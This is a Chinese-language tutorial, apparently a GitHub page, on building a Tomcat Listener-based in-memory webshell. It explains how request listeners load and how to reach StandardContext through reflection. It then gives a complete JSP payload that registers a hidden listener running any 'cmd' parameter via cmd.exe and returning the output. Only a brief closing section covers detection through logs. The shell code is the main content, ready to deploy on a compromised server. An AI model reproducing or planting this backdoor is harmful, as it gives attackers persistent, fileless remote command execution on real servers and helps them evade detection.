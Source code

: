 # Tomcat-Listener型内存马

## 初步体验监听器创建

其中要实现两个方法：

**requestInitialized：**在request对象创建时触发

**requestDestroyed：**在request对象销毁时触发

简单实现一下Listener

```Java
public class TestListener implements ServletRequestListener {
    @Override
    public void requestDestroyed(ServletRequestEvent sre) {
        System.out.println("destroy TestListener");
    }

    @Override
    public void requestInitialized(ServletRequestEvent sre) {
        System.out.println("initial TestListener");
    }
}
```

在`web.xml中

```xml
<listener>
    <listener-class>com.yyds.TestListener</listener-class>
</listener>
```



## 流程分析

我们知道监听器的过程：Listener -> Filter -> Servlet

Listener是最先被加载的, 所以可以利用动态注册恶意的Listener内存马。而Listener分为以下几种：

- ServletContext，服务器启动和终止时触发
- Session，有关Session操作时触发
- Request，访问服务时触发

不难想到，其中关于监听Request对象的监听器是最适合做内存马的，只要我们访问服务就能触发相应操作

如果在Tomcat要引入listener，需要实现两种接口，分别是`LifecycleListener`和原生`EvenListener`。

实现了`LifecycleListener`接口的监听器一般作用于tomcat初始化启动阶段，此时客户端的请求还没进入解析阶段，不适合用于内存马。

另一个`EventListener`接口，在Tomcat中，自定义了很多继承于`EventListener`的接口，应用于各个对象的监听，idea下用快捷键`Ctrl+H`查看所有实现接口的类

![](img/1.png)

重点来看`ServletRequestListener`接口，`ServletRequestListener`用于监听`ServletRequest`对象的创建和销毁，当我们访问任意资源，无论是servlet、jsp还是静态资源，都会触发`requestInitialized`方法

在`requestInitialized`处下断点，清楚看到调用链

![](img/2.png)

我们看到listener是在StandardContext#getApplicationEventListeners方法中获得![](img/3.png)![](img/4.png)

那如何添加listener呢，可以看到在StandardContext#addApplicationEventListener添加了listener![](img/5.png)

因此我们不难想到通过反射调用StandardContext#addApplicationEventListener方法，add我们自己写的恶意listener

方式一：

```jsp
<% Field reqF = request.getClass().getDeclaredField("request"); reqF.setAccessible(true); Request req = (Request) reqF.get(request); StandardContext context = (StandardContext) req.getContext(); %>
```

方式二：

```jsp
WebappClassLoaderBase webappClassLoaderBase = (WebappClassLoaderBase) Thread.currentThread().getContextClassLoader();
    StandardContext standardContext = (StandardContext) webappClassLoaderBase.getResources().getContext();
```

因此看看这个内存马就不难理解了

```jsp
<%@ page import="org.apache.catalina.core.StandardContext" %>
<%@ page import="java.lang.reflect.Field" %>
<%@ page import="org.apache.catalina.connector.Request" %>
<%@ page import="java.io.InputStream" %>
<%@ page import="java.util.Scanner" %>
<%@ page import="java.io.IOException" %>

<%!
    public class MyListener implements ServletRequestListener {
        public void requestDestroyed(ServletRequestEvent sre) {
            HttpServletRequest req = (HttpServletRequest) sre.getServletRequest();
            if (req.getParameter("cmd") != null){
                InputStream in = null;
                try {
                    in = Runtime.getRuntime().exec(new String[]{"cmd.exe","/c",req.getParameter("cmd")}).getInputStream();
                    Scanner s = new Scanner(in).useDelimiter("\\A");
                    String out = s.hasNext()?s.next():"";
                    Field requestF = req.getClass().getDeclaredField("request");
                    requestF.setAccessible(true);
                    Request request = (Request)requestF.get(req);
                    request.getResponse().getWriter().write(out);
                }
                catch (IOException e) {}
                catch (NoSuchFieldException e) {}
                catch (IllegalAccessException e) {}
            }
        }

        public void requestInitialized(ServletRequestEvent sre) {}
    }
%>

<%
    Field reqF = request.getClass().getDeclaredField("request");
    reqF.setAccessible(true);
    Request req = (Request) reqF.get(request);
    StandardContext context = (StandardContext) req.getContext();
    MyListener listenerDemo = new MyListener();
    context.addApplicationEventListener(listenerDemo);
%>
```

![](img/6.png)

删除后随便来一个

![](img/7.png)

## 如何防御

如果是通过命令执行漏洞，那么看看日志的请求应该能排查

可能会有较多的404但是带有参数的请求，或者大量请求不同url但带有相同的参数，或者页面并不存在但返回200